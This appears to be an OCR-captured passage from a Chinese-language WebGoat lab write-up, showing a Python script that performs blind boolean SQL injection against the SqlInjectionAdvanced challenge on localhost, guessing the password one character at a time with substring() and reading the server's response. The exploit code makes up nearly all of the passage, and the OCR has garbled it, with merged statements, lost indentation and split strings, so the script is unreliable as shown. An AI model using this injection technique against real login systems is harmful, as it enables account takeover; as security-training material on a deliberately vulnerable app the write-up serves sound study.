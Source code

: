 ![inject](./img_8/exp3/5.5.png)

### 9. 使用python脚本进行攻击，爆破密码
#### 9.1 使用到的脚本代码结构如下：
```
# coding:utf-8
import requests
#⽣成⼀个a-z的字⺟列表
str_list = [chr(i) for i in range(97,123)]
url ="http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge"password =""
#分别对24位按照a~z进⾏猜测
for i in range(1,24):
  for s in str_list:
  #使⽤i和s两个变量分别进⾏遍历
  putdata =f"username_reg=tom' and substring(password,{i},1)='{s}'--&email_reg=tom%40tom.com&password_reg=123&confirm_password_reg=123"burp0_url ="http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge"
  burp0_cookies = {"JSESSIONID":"pl3KGD5KboqpuWzNQj13qeUEAaRYcN1m6dTIwB68","SESS12ca17b49af2289436f303e0166030a2":"fZpnQ9GJoGXhdGIYFKnutXHkmyNyJfSUsM2JaGHutZk"}
  burp0_headers = {"User-Agent": "Mozilla/5.0 (X11;
  Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0", "Accept":"*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip,deflate, br", "Content-Type": "application/x-www-form-urlencoded;charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "Origin":"http://127.0.0.1:8080", "Connection": "close", "Referer":"http://127.0.0.1:8080/WebGoat/start.mvc", "Sec-Fetch-Dest": "empty","Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin"}
  res = requests.put(burp0_url, headers=burp0_headers,cookies=burp0_cookies, data=putdata)
  resp = res.text.find("already exists please")
  if resp != -1:
    password += s
print(password)
```
